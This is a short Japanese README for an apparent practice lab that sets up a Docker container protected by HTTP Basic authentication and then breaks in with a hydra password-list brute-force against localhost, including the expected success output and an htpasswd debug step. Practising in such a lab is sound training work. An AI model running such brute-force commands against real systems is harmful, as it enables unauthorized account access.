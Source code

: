 # Basic認証を突破する練習レポジトリ

## 立ち上げ

```
docker-compose build
docker-compsoe up
```

## コンテナの中に入ってhydra実行
```
docker exec -ti basic-auth /bin/bash
cd password-list/
hydra -l username -P password-list.txt localhost http-get /index.html
```

成功したら以下のようになる

```
[80][http-get] host: localhost   login: username   password: password
1 of 1 target successfully completed, 1 valid password found
```

## デバッグ用

### コンテナの中に入ってパスワード生成
```
docker exec -ti basic-auth /bin/bash
# 既存ファイルが上書きされるので注意
htpasswd -c /etc/nginx/.htpasswd [ユーザ名]
```

